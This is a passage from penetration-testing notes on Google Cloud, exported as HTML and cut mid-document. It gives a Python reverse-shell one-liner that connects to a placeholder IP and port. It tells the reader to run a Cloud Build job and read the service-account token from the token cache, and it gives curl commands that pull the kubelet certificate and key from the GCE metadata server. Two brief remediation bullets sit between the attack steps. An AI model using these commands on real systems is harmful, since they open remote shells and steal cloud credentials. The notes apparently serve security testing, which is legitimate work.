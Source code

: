   - import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&quot;IP-ADDRESS&quot;,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);</code></pre><p id="9139a8f3-0e77-4746-85c5-14a10e8ad377" class="">Run the following command:<code>gcloud builds submit --config ./build.yaml .</code></p><p id="fecb48b0-96d9-41aa-8f9b-0aa18807b923" class="">Then, read <code>/root/tokencache/gsutil_token_cache</code> to get Cloud Build service account token</p><ul id="f2d9de1d-832d-41cc-a0ce-abf1d0cdb46e" class="bulleted-list"><li style="list-style-type:disc">check scope of token here: <code>https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=</code></li></ul><h2 id="13e2543e-3243-4f07-8f62-043825d22715" class="">Remediation</h2><ul id="fe4c11f6-4e86-432b-8479-63c48bf864fa" class="bulleted-list"><li style="list-style-type:disc">don’t provide <code>cloudbuild.build.create</code> unless you’re okay with the permissions the Cloud Build service account grants</li></ul><ul id="c3695813-16e9-4cdb-9ded-0a25f5894309" class="bulleted-list"><li style="list-style-type:disc">consider reducing the permissions for the CloudBuild service account </li></ul><h2 id="840dac61-b3a2-4b39-b570-624f777a44fe" class="">GKE</h2><p id="7e6da1c0-25ee-4681-b7dd-811ad9a1ca9b" class=""><a href="https://www.4armed.com/blog/hacking-kubelet-on-gke/">https://www.4armed.com/blog/hacking-kubelet-on-gke/</a></p><p id="a0710017-17f9-4fbe-83fa-82c6700cc599" class=""><a href="https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/">https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/</a></p><h3 id="966e2403-98cb-4a82-8682-ee10fa58a37b" class="">Kubernetes Threat Matrix</h3><p id="61136762-6902-464d-8453-05c657c1d577" class=""><a href="https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/">https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/</a></p><figure id="569df3ee-fee4-461c-8e85-f0201bc7e40e" class="image"><a href="../../../../images/GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%204.png"><img style="width:1440px" src="../../../../images/GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%204.png"/></a></figure><h2 id="e7867a49-98c8-467f-9188-173a02219099" class="">Kubelet</h2><p id="6d78c86f-5665-43af-8853-db79810ab651" class="">Retrieve <code>apiserver.crt</code>, <code>kubelet.crt</code>, and <code>kubelet.key</code></p><pre id="207bcfe6-8575-485c-ac22-c0f20a9f35d1" class="code"><code>curl -s -H &#x27;Metadata-Flavor: Google&#x27; &#x27;http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env&#x27; | grep ^KUBELET_CERT | awk &#x27;{print $2}&#x27; | base64 -d &gt; kubelet.crt
curl -s -H &#x27;Metadata-Flavor: Google&#x27; &#x27;http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env&#x27; | grep ^KUBELET_KEY | awk &#x27;{print $2}&#x27; | base64 -d &gt; kubelet.key